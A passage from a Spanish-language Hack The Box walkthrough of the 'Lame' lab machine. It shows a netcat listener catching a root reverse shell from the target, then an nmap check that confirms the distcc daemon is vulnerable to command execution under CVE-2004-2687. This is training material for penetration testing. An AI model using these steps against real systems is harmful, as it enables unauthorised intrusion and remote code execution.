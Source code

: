 Generamos un listener por el puerto escogido y obtenemos acceso al sistema como usuario `root`

```bash
  ❯ nc -lvnp 4564
  listening on [any] 4564 ...
  connect to [10.10.14.6] from (UNKNOWN) [10.10.10.3] 46709
  whoami
  root
```

<p style="text-align: center;">
<img src="/assets/images/lame/03-intrusion.png">
</p>

## ENUMERACION DISTCCD
  
Vamos a realizar la búsqueda de posibles vulnerabilidades en el servicio `distcc`, investigando un poco, existe un script `distcc-cve2004-2687` de nmap que identifica si la versión de distcc es o no vulnerable.
  
```bash
  ❯ locate .nse | grep dist
  /usr/share/nmap/scripts/distcc-cve2004-2687.nse
  
  ❯ nmap -p3632 -Pn 10.10.10.3 --script=distcc-cve2004-2687
  PORT     STATE SERVICE
  3632/tcp open  distccd
  | distcc-cve2004-2687:
  |   VULNERABLE:
  |   distcc Daemon Command Execution
  |     State: VULNERABLE (Exploitable)
  |     IDs:  CVE:CVE-2004-2687
  |     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
  |       Allows executing of arbitrary commands on systems running distccd 3.1 and
  |       earlier. The vulnerability is the consequence of weak service configuration.
  |                                                                                                               
  |     Disclosure date: 2002-02-01                                                                               
  |     Extra information:                                                                                        
  |                                                                                                               
  |     uid=1(daemon) gid=1(daemon) groups=1(daemon)                                                              
  |                                                                                                               
  |     References:                                                                                               
  |       https://nvd.nist.gov/vuln/detail/CVE-2004-2687                                                          
  |       https://distcc.github.io/security.html                                                                  
  |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687                                            
```                                                                                                                  
